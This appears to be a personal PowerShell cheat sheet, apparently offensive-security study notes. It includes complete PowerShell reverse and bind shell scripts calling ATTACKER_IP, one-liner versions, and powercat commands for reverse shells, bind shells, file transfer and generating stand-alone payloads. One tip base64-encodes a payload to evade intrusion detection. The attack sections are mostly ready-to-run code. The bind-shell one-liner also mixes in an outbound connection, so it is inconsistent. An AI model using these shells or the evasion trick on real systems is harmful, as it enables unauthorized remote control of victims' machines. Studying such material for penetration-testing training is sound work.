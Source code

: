 # Powershell

* Set `ExecutionPolicy` to `Unrestricted`, run `powershell` as admin:
```
Set-ExecutionPolicy Unrestricted
Y
```

* Check `ExecutionPolicy` status:
```
Get-ExecutionPolicy
```

## List driver version
* To find the version number of all drivers, we can use `Get-WmiObject Win32_PnPSignedDriver`, which provides detail information of all `Win32_PnPSignedDriver`. We can then select specific property using `Select-Object` such as `DeviceName`, and use `Where-Object` to filter the result, like `grep`.
```ps
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion | Where-Object {$_.DeviceName -like "*USB*"}
```

* Comments in `powershell` scripts using `#`, `<#` and `#>`
```powershell
# This is a comment
<#
This is inside a block comment
#>
```

* File Transfer / Downloading with powershell, `new-object` instantiates a new `.NET` framework or `.COM` object, in our case, we are creating an instance of `WebClient` under the namespace of `System.Net`. This class contains a public function, `DownloadFile`, which takes two parameters, source location in the form of a `URI`, and a target location. (where the downloaded file will be stored)
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://localhost/file','C:\Users\saccharide\Desktop\file')"
```

## Bind Shell & Reverse Shell
* A `bind shell` is when the victim binds `/bin/bash` to a port and is listening on its machine for attacker to connect to it and run command, but this is mostly likely blocked by firewall since the attacker is coming from the outside world, and is viewed as insecure network. This leds to `reverse shell`.
* A `reverse shell` is when the attacker creates a server and makes the victim connects to the attacker's machine. By defualt, firewalls are configured to deny access from insecure network (attacker's) to secure network (victim's), but they allow access from secure network to the insecure network. This means we can makes the victim to initiate the connection to attacker, and executes `/bin/bash` upon established connection.

## Reverse Shell!
* `iex` executes the string as command, similar to running `bash -c` or `powershell -c`, running command 
```
$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',1337);

$stream = $client.GetStream();

[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
}

$client.Close();
```

Final setup:
```
Attacker:
nc -lvnp 1337

Victim:
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();"
```

## Bind Shells
* Bind shell 
```
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',1337);
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();

[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
}

$client.Close();
$listener.Stop();
```

* Final Setup
```
Attacker:
nc -nv VICTIM_IP 1337

Victim:
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',1337); $listener.start();$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop();"
```

## Powercat
* `powercat` is essentially the Windows' verison of `netcat`.
* Dot-Soucring, kind of like loading `.bashrc`, will only be avaiable for the current powershell session, and will need to be reloaded every time if want to use.
```
. .\powercat.ps1
powercat -h
```

### File Transfer
* `-c` client mode, and we will need to specify the receiver's IP, `-p` will need the receiver's port number, `-i` specifies the local input file we want to transfer
```
Reciver:
nc -lnvp 1337 > receive.ps1

Sender:
powercat -c RECEIVER_IP -p RECEIVER_PORT -i C:\Users\saccharide\powercat.ps1
```

### Reverse shell
* Again, `reverse shell` is where the attacker starts a listener, and makes the victim initiate the connection
```
Attacker:
nc -lnvp 1337

Victim:
powercat -c ATTACKER_IP -p 1337 -e cmd.exe
```

### Bind Shell
* Again, `bind shell` is where the victim starts the listener and wait for attacker to connect to it to run shell commands.
```
Attacker:
nc -nv VICTIM_IP 1337

Victim:
powercat -l -p 1337 -e cmd.exe
```

### Stand-Alone Payloads
* `-g` option will generate a payload and we can redirect the output of this to a file, and powershell can run the generated payload directly
```
Attacker:
nc -lnvp 1337

Vitcim:
powercat -c ATTACKER_IP -p 1337 -e cmd.exe -g > reverse-shell.ps1
./reverse-shell.ps1
```

* Since most `IDS` will be able to detect such simple payload, we can encode it to `base64` with `-e` option, and we can use run it with `powershell -E`
```
Attacker:
nc -lnvp 1337

Vitcim:
powercat -c ATTACKER_IP -p 1337 -e cmd.exe -ge > reverse-shell.ps1
powershell.exe -E CONTENT_OF_REVERSE-SHELL.ps1
```
